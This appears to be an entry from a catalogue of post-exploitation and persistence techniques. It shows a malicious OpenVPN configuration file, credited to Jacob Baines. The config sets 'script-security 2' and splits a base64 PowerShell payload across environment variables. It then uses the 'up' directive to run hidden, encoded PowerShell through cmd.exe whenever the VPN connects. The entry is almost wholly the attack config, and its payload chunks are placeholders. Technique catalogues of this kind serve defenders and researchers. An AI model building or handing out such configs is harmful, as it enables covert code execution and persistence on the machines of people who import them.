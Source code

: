 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - network-protocols
  - openvpn
  - windows
credits:
  - Jacob Baines
---
```

# OpenVPN

```
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
setenv z1 C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
setenv a1 '<base64_encoded>'
setenv b1 '<base64_encoded>'
setenv c1 '<base64_encoded>'
setenv d1 '<base64_encoded>'
setenv e1 '<base64_encoded>'
setenv f1 '<base64_encoded>'
setenv g1 '<base64_encoded>'
setenv h1 '<base64_encoded>'
setenv i1 '<base64_encoded>'
setenv j1 '<base64_encoded>'
setenv k1 '<base64_encoded>'
setenv l1 '<base64_encoded>'
setenv m1 '<base64_encoded>'
setenv n1 '<base64_encoded>'
setenv o1 '<base64_encoded>'
setenv p1 '<base64_encoded>'
setenv q1 '<base64_encoded>'
setenv r1 '<base64_encoded>'
setenv s1 '<base64_encoded>'

up "C:\\Windows\\System32\\cmd.exe /c (start %z1% -WindowStyle Hidden -EncodedCommand %a1%%b1%%c1%%d1%%e1%%f1%%g1%%h1%%i1%%j1%%k1%%l1%%m1%%n1%%o1%%p1%%q1%%r1%%s1%) ||"
```

---
## References

### Jacob Baines

- [Jacob Baines: Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)